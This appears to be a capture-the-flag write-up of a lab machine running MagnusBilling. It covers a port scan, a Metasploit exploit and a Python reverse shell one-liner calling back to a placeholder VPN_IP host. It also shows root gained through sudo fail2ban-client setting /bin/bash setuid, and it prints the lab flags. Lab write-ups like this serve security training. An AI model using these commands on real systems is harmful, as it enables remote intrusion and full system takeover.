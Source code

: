 ```yaml
---
sticker: emoji//1f4b3
---
```


# BILLING

## PORT SCAN

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |

## RECONNAISSANCE

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250612121156.png)

Once we go to the web application, we can check this is working with something called `MagnusBilling`, we know this because a little moment before going into the web application, this loads in:

![](gitbook/cybersecurity/images/Pasted%20image%2020250612121421.png)

**MagnusBilling** is an open-source VoIP billing and call accounting platform designed for service providers, call shops, and enterprises. It provides comprehensive solutions for call routing, rate management, user provisioning, and real-time billing. Built on a LAMP/LEMP stack, it supports integration with major VoIP protocols (SIP, IAX) and hardware, featuring web-based management, fraud detection, and multi-tenant capabilities.

If we search info related to this, we can find this exploit:

![](gitbook/cybersecurity/images/Pasted%20image%2020250612121504.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250612121513.png)

Based on that, let's search a module on `metasploit`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250612121650.png)

Same exploit as the one above, let's proceed with exploitation.

## EXPLOITATION

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250612121837.png)

Now, set options and run the exploit:

![](gitbook/cybersecurity/images/Pasted%20image%2020250612121935.png)

We got our meterpreter shell, I will switch to a netcat shell for a better experience:

```
meterpreter > shell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("VPN_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250612122241.png)

Let's begin privilege escalation.

## PRIVILEGE ESCALATION

***

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250612122406.png)

We got a shell as `asterisk`, let's use linpeas and check what can we do to escalate our privileges:

![](gitbook/cybersecurity/images/Pasted%20image%2020250612122904.png)

We can run `fail2ban-client` binary, in a previous machine, specifically `biteme`, a similar privilege escalation was done with this binary but in that case we could reset the service of `fail2ban`, let's check how to exploit it in this case:

![](gitbook/cybersecurity/images/Pasted%20image%2020250612123256.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250612123306.png)

That would work but we don't have write permissions over the `iptables.conf` file:

![](gitbook/cybersecurity/images/Pasted%20image%2020250612123407.png)

Unfortunately, this is not the path, but, investigating further we can find this article:

Article: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=es&\_x\_tr\_pto=tc

![](gitbook/cybersecurity/images/Pasted%20image%2020250612123516.png)

Let's replicate the PoC:

```
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

```
asterisk@ip-10-10-24-201:/tmp$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

sudo /usr/bin/fail2ban-client get mbilling_ddos actions
The jail mbilling_ddos has the following actions:
iptables-allports

sudo /usr/bin/fail2ban-client set mbilling_ddos addaction evil
sudo /usr/bin/fail2ban-client set mbilling_ddos action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set mbilling_ddos banip 1.2.3.5
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250612123848.png)

As seen, we get a root shell following the PoC, let's get both flags:

```
bash-5.2# cat /home/magnus/user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}

bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250612124033.png)
